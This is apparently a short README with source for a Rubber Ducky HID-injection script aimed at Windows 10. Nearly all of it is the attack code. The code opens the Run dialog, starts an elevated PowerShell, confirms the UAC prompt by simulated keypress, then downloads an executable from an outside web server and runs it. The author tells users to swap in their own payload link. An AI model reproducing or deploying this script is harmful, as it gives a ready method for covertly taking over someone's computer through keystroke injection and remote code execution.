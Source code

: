 A ducky script that uses the powershell to download and execute a file from a webserver, then close all powershell windows (with another powershell). Intended for use with windows 10 target, but probably works with Windows 7 and 8.

Change the link and what name to save the file as.


Preview: https://www.youtube.com/watch?v=3WojmjCiXnw

```
REM Windows 10: Poweshell administrator download and execute file
REM Author: Judge2020
REM author website: Judge2020.com
REM
REM start of script
REM
REM let the HID enumerate
DELAY 2000
GUI r
DELAY 200
REM my best attempt at a elevated powershell instance
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y
DELAY 500
STRING $down = New-Object System.Net.WebClient; $url = 'http://www.greyhathacker.net/tools/messbox.exe'; $file = 'mess1.exe'; $down.DownloadFile($url,$file); $exec = New-Object -com shell.application; $exec.shellexecute($file); exit;
```
